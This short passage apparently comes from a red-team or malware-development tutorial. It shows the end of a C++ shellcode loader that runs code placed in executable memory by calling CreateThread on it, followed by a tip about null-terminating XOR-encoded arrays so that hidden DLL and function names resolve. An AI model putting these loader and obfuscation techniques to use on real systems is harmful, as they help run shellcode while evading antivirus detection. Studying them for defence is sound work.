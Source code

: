 ```cpp
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
    return 0;
}
```

{% hint style="warning" %}
Remember to add string terminator bytes at the end of XORed array (0x00), otherwise the DLL and function name will not be loaded correctly.
{% endhint %}
